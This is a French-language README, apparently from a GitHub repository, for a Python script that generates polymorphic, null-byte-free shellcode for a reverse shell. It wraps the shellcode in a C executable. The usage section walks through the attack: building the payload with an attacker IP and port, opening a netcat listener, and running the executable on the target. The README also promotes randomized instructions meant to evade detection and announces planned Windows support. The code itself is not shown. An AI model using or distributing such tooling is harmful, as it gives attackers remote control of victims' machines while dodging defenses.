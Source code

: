# 🕵️‍♂️ Shellcode 


# ⚠️ Disclaimer

Ce script génère un shellcode polymorphe pour un reverse shell. Il prend en entrée une adresse IP et un port, encode ces informations pour éviter les octets nuls, et génère un fichier en assembleur qui est ensuite compilé en shellcode. 
Le shellcode est intégré dans un fichier C qui peut être compilé pour fournir un exécutable. L'objectif est de créer un reverse shell qui se connecte à une machine attaquante.

## 👥 Auteurs

- [@mrl91](https://github.com/mrl91)
- [@VD17](https://github.com/VD17)


## 🛠️ Installation

Prérequis :

- **NASM**
    sudo apt-get install nasm binutils gcc


- **argparse**
    pip install argparse


## 📚 Utilisation

Exécution du Script
```python
python script.py --ip IP_ADDRESS --port PORT
```

Ouvrez un Netcat : 
```sh 
nc -lvnp PORT
```

Lancez le reverse shell sur la machine cible : 
```sh
./reverse_shell.out
```

## 👀 Résultats
Après l'exécution du script, vous verrez des informations détaillées sur le shellcode généré, y compris les adresses IP et ports encodés et décodés, ainsi que les opcodes du shellcode.

## ✨ Fonctionnalités

- Encode une adresse IP et un port en évitant les octets nuls.
    Le script encode l'adresse IP et le port pour éviter les octets nuls, convertissant les valeurs en format little-endian.

- Génère un shellcode polymorphe avec des instructions aléatoires.
    Le shellcode est généré en utilisant des instructions polymorphes et des NOPs aléatoires.

- Compile le code assembleur en shellcode.
    Le code assembleur est compilé en un fichier objet, puis lié pour créer un exécutable binaire. Les opcodes sont extraits de l'exécutable binaire.

- Crée un fichier C contenant le shellcode pour produire un exécutable.
    Un fichier C est créé avec le shellcode intégré. Ce fichier est ensuite compilé pour produire un exécutable prêt à l'emploi.

- Affiche des informations détaillées sur le shellcode généré.
    Le script affiche des informations sur l'encodage et le décodage de l'adresse IP et du port, ainsi que les opcodes du shellcode.

## Comming soon

Nous avons commencé l'intégration de la compatibilité de ce code sous Windows afin de pouvoir générer des shell codes foncionnel sous environnement microsoft.
De plus, nous avons travaillé sur le chiffrement des flux mais nous rencontrons des problèmes.